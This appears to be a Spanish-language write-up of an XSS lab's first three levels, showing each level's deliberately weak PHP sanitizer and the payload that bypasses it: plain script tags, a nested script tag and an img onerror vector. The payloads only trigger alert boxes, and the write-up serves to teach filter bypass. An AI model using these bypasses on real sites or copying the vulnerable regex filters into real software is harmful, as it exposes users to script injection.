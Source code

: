 Función sanitizadora:

```php
function Sanitizer($search){
  // Let's start...
  return 'Your search "<b>' . $search . '</b>" did not match any products';
}
```

inyección:

```html
<script>alert('l33t')</script>
```


### Level 2

```
XSS 2 	The filter doesn't like the script tags. Are you able to create a valid vector still using the script tag? 	EASY 	To script, or not script.. 
```

Función sanitizadora:
```php
function Sanitizer($search){
  //To script, or not script.. 
  $search = preg_replace('#<script([\s])*>#is', NOSCRIPT, $search);
   
  return 'Your search "<b>' + $search + '</b>" did not match any products';
}
```

inyección:

```html
<script <script>>alert('l33t')</script>
```

### Level 3

```
XSS 3 	The script tag filters smeems stronger, isn't it? Alternatives? 	EASY 	To script, or not script... this is no more the problem 
```
Función sanicitadora:

```php
function Sanitizer($search){
  //To script, or not script... this is no more the problem
  $search = preg_replace('#<script(.*?)>#is', NOSCRIPT, $search);
   
  return 'Your search "<b>' + $search + '</b>" did not match any products';
}
```

Inyección:

```html
<img/src onerror=alert('l33t')>
```
